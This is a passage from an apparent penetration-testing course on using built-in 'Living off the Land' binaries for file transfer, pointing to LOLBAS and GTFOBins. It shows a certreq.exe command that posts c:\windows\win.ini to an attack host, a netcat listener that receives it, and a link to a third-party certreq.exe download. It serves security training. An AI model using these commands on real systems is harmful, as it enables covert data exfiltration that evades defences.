 - [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

#### Upload win.ini to our Pwnbox

  Upload win.ini to our Pwnbox

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

#### File Received in our Netcat Session

  File Received in our Netcat Session

```shell-session
gdxqpardo@htb[/htb]$ sudo nc -lvnp 80
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."
